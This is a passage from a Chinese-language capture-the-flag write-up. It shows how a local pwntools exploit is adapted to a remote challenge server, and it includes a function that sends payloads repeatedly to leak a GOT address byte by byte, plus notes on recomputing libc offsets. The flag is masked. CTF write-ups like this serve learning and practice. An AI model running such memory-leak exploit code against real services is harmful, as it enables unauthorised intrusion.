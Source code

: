 ```python
proc.interactive()  
```
最后我们只要稍作修改即可用于远程服务器，获取	`flag`
首先由于不知道的原因，原本一次 `proc.recv()` 现在需要调用两次才能读完缓冲区。如果打印 `0x00`，原本 991 的长度被分为 989 和 2。

```python
def get_got_addr(proc):
    got_addr = list("")
    for i in range(0, 8): 
        pld = get_got_addr_payload(i)
        proc.sendline(pld)
        rec = proc.recv()
        proc.recv() 
        #print rec
        #print len(rec)
        if len(rec) == 989:
            got_addr += '\0'
        else :
            got_addr += rec[8]
    got_addr = "".join(got_addr) 
    got_addr = struct.unpack("P", got_addr)
    return got_addr
```
最后最重要的就是远程的libc和本地是不一样的，需要自己重新进行计算。
`proc = remote("pwn.sixstars.team", 22015) `
稍作修改后，执行
![](https://i.loli.net/2019/07/22/5d357f04957c272447.png)
`flag` 是 `*ctf{----------------------------------}` ，拒绝当 Script Kiddle，自己研究才有乐趣。
![](https://i.loli.net/2019/07/22/5d357f0529cf592631.png)
